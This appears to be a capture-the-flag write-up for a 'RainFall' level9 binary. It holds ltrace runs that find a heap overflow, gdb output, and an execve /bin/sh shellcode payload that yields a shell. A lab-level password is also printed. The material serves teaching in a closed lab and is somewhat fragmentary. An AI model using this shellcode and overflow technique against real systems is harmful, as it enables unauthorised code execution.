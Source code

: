Login as `level9`.
```shell
┌──$ [~/42/2021/rainfall]
└─>  ssh 192.168.0.30 -p 4242 -l level9
level8@192.168.0.30's password: c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
A `SUID` executable is located in the home directory.
```shell
level9@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
```

```shell
level9@RainFall:~$
level9@RainFall:~$
level9@RainFall:~$
level9@RainFall:~$ ltrace ./level9 `python -c "print 'a'*108"`
__libc_start_main(0x80485f4, 2, 0xbffff774, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) = 0
_Znwj(108, 0xbffff774, 0xbffff780, 0xb7d79e55, 0xb7fed280) = 0x804a008
_Znwj(108, 5, 0xbffff780, 0xb7d79e55, 0xb7fed280) = 0x804a078
strlen("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)     = 108
memcpy(0x0804a00c, "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"..., 108) = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 0x61616167, 0x804a078, 0x8048738, 0x804a00c) = 0xb7fce4a0
+++ exited (status 103) +++
level9@RainFall:~$
level9@RainFall:~$
level9@RainFall:~$
level9@RainFall:~$
level9@RainFall:~$ ltrace ./level9 `python -c "print 'a'*109"`
__libc_start_main(0x80485f4, 2, 0xbffff774, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) = 0
_Znwj(108, 0xbffff774, 0xbffff780, 0xb7d79e55, 0xb7fed280) = 0x804a008
_Znwj(108, 5, 0xbffff780, 0xb7d79e55, 0xb7fed280) = 0x804a078
strlen("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)     = 109
memcpy(0x0804a00c, "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"..., 109) = 0x0804a00c
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```






(gdb) info frame
Stack level 0, frame at 0xbffff6d0:
 eip = 0x80485fe in main; saved eip 0xb7d604d3
 Arglist at 0xbffff6c8, args:
 Locals at 0xbffff6c8, Previous frame's sp is 0xbffff6d0
 Saved registers:
  ebp at 0xbffff6c8, eip at 0xbffff6cc
(gdb) x/wx $ebp+0x8         # argc - Number of argumets
0xbffff6d0:	0x00000002
(gdb) x/wx $ebp+0xc         # argv - Address of list of argumets
0xbffff6d4:	0xbffff764
(gdb) x 0xbffff764
0xbffff764:	0xbffff883
(gdb) x/32s 0xbffff883
0xbffff883:	 "/home/user/level9/level9"
0xbffff89c:	 "1\300Ph//shh/bin\211\343\211\301\211°\v̀1\300@̀", 'A' <repeats 81 times>
0xbffff90a:	 "SHELL=/bin/bash"
0xbffff91a:	 "TERM=xterm-256color"
0xbffff92e:	 "SSH_CLIENT=192.168.0.12 59331 4242"
0xbffff951:	 "SSH_TTY=/dev/pts/0"
0xbffff964:	 "USER=level9"
0xbffff970:	 "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
0xbffffa38:	 ":*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.d"...
0xbffffb00:	 "eb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35"...
0xbffffbc8:	 ":*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mk"...
0xbffffc90:	 "v=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35"...
0xbffffd58:	 ":*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00"...
0xbffffe20:	 ";36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:"
0xbffffe91:	 "COLUMNS=238"
0xbffffe9d:	 "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
0xbffffeea:	 "MAIL=/var/mail/level9"
0xbfffff00:	 "_=/usr/bin/gdb"
0xbfffff0f:	 "PWD=/home/user/level9"
0xbfffff25:	 "LANG=en_US.UTF-8"
0xbfffff36:	 "LINES=69"
0xbfffff3f:	 "HOME=/home/user/level9"
0xbfffff56:	 "SHLVL=1"
0xbfffff5e:	 "LOGNAME=level9"
0xbfffff6d:	 "SSH_CONNECTION=192.168.0.12 59331 192.168.0.33 4242"
0xbfffffa1:	 "LESSOPEN=| /usr/bin/lesspipe %s"
0xbfffffc1:	 "LESSCLOSE=/usr/bin/lesspipe %s %s"
0xbfffffe3:	 "/home/user/level9/level9"
0xbffffffc:	 ""
0xbffffffd:	 ""
0xbffffffe:	 ""
0xbfffffff:	 ""










(gdb) break *0x08048693
Breakpoint 1 at 0x8048693
(gdb) run $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'A'*81")
Starting program: /home/user/level9/level9 $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'A'*81")

Breakpoint 1, 0x08048693 in main ()
(gdb) i r $edx
edx            0x54000000	1409286144
(gdb) set $edx=0x804a00c
(gdb) i r $edx
edx            0x804a00c	134520844
(gdb) continue
Continuing.
process 12435 is executing new program: /bin/dash
$ id
uid=2009(level9) gid=2009(level9) groups=2009(level9),100(users)




0x8048854	_ZTI1N
0x804873a	_ZN1NplERS_
0x804874e	_ZN1NmiERS_
0x8049b88	_ZTVN10__cxxabiv117__class_type_infoE
0x8048850	_ZTS1N

